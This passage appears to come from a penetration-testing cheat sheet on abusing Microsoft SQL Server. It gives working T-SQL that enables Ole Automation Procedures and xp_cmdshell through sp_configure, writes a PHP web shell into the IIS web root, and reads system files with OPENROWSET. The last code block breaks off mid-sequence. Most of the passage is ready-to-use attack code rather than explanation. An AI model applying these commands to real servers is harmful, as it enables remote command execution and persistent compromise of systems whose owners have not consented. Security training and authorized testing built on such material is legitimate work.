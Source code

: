 ```
go
# If your user is admin, it will return 1.
```


Also, you might be interested in executing a cmd shell using xp_cmdshell by reconfiguring sp_configure (see the section `Executing cmd shell in a SQL command line`).

### Write files using MSSQL
To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges, and then execute some stored procedures to create the file:

```cmd-session
sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;
```

### Create files using MSSQL

```
# Using MSSQL to Create a File
DECLARE @OLE INT;
DECLARE @FileID INT;
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT;
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1;
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>';
EXECUTE sp_OADestroy @FileID;
EXECUTE sp_OADestroy @OLE;
```

### Read files using MSSQL

```
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```


### Executing cmd shell in a SQL command line

Our goal can be to spawn a Windows command shell and pass in a string for execution. For that Microsoft SQL syntaxis has the command **xp_cmdshell**, that will allow us to use the SQL command line as a CLI. 

Because malicious users sometimes attempt to elevate their privileges by using xp_cmdshell, xp_cmdshell is disabled by default.  `xp_cmdshell` can be enabled and disabled by using the [Policy-Based Management](https://docs.microsoft.com/en-us/sql/relational-databases/security/surface-area-configuration) or by executing [sp_configure](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option)

**sp_configure** displays or changes global configuration settings for the current settings. This is how you may take advantage of it:

```msSQL
# To allow advanced options to be changed.   
EXECUTE sp_configure 'show advanced options', 1
go
  
# To update the currently configured value for advanced options.  
RECONFIGURE
go

# To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
go

# To update the currently configured value for this feature.  
```
